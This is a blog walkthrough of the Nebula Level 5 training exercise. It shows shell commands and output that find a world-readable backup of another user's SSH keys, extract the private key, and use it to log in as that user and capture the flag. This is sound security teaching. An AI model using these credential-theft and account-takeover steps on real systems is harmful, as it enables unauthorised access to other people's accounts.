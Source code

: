 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 5"
date:   2016-07-30 12:35:00 +0200
categories: exercises security
---
```


> Check the flag05 home directory. You are looking for weak directory permissions

* * *

While inspecting `flag05`'s home directory, we can see there's a `.backup` directory that we have access to.

~~~ bash
level05@nebula:~$ ls -al /home/flag05/
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root     160 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
~~~

Inside the `.backup` directory, someone seems to have saved a tar.gz packed backup of some files. Let's see what's in it!

~~~ bash
level05@nebula:~$ ls -al /home/flag05/.backup/
total 2
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz

level05@nebula:~$ tar -ztvf /home/flag05/.backup/backup-19072011.tgz
drwxr-xr-x user/user         0 2011-07-19 02:37 .ssh/
-rw-r--r-- user/user       394 2011-07-19 02:37 .ssh/id_rsa.pub
-rw------- user/user      1675 2011-07-19 02:37 .ssh/id_rsa
-rw-r--r-- user/user       394 2011-07-19 02:37 .ssh/authorized_keys
~~~


Interesting! That's a public/private keypair. It's not a good idea to put files like that in a world readable file :). Let's go ahead and extract it to our home directory:

~~~ bash
level05@nebula:~$ tar -zxvf /home/flag05/.backup/backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
~~~

Knowing that the files were in `flag05`'s home directory, let's try using the keys to become `flag05`.

~~~ bash
level05@nebula:~$ ssh flag05@192.168.1.64
The authenticity of host '192.168.1.64 (192.168.1.64)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.64' (ECDSA) to the list of known hosts.

[ ... ]

flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
~~~

See you at [level 6]({% post_url 2016-07-30-exploit-exercises-level-6 %}).
